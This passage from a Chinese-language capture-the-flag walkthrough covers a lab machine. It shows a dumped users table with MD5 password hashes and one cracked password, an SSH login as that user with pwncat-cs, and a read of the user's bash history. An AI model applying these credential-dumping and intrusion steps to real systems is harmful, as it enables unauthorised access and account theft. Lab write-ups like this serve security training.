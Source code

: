 将数据库的数据 dump 下来

```plaintext
Database: nebuladb
Table: users
[7 entries]
+----+----------+----------------------------------------------+-------------+
| id | is_admin | password                                     | username    |
+----+----------+----------------------------------------------+-------------+
| 1  | 1        | d46df8e6a5627debf930f7b5c8f3b083             | admin       |
| 2  | 0        | c8c605999f3d8352d7bb792cf3fdb25b (999999999) | pmccentral  |
| 3  | 0        | 5f823f1ac7c9767c8d1efbf44158e0ea             | Frederick   |
| 3  | 0        | 4c6dda8a9d149332541e577b53e2a3ea             | Samuel      |
| 5  | 0        | 41ae0e6fbe90c08a63217fc964b12903             | Mary        |
| 6  | 0        | 5d8cdc88039d5fc021880f9af4f7c5c3             | hecolivares |
| 7  | 1        | c8c605999f3d8352d7bb792cf3fdb25b (999999999) | pmccentral  |
+----+----------+----------------------------------------------+-------------+
```

得到一组凭据

```plaintext
pmccentral:999999999
```

## User - pmccentral

```bash
┌─[randark@parrot]─[~/tmp]
└──╼ $pwncat-cs pmccentral@192.168.56.108
[19:46:46] Welcome to pwncat 🐈!
Password: *********
[19:46:50] 192.168.56.108:22: registered new host w/ db
(local) pwncat$ back
(remote) pmccentral@laboratoryuser:/home/pmccentral$ whoami
pmccentral
```

### 读取命令行历史

```bash title="/home/pmccentral/.bash_history"
ls
cd laboratoryuser/
sudo su
cd pmccentral/
ls
nano
ls
mkdir desktop downloads documents
ls
ll
exit
ls
tree
ls
ls desktop/k
ls desktop/
ls documents/
ls
ls downloads/
cd documents/
ls
cat employees.txt
cd ..
ls
cd laboratoryadmin/
```